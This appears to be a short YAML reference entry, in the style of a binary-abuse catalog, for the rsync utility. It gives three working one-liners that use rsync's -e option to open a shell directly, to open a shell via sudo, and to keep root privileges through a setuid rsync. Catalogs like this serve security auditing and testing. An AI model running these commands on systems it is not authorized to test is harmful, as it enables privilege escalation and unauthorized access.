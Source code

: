 ```yaml
---
functions:
  shell:
    - code: rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
  sudo:
    - code: sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
  suid:
    - code: ./rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
---
```

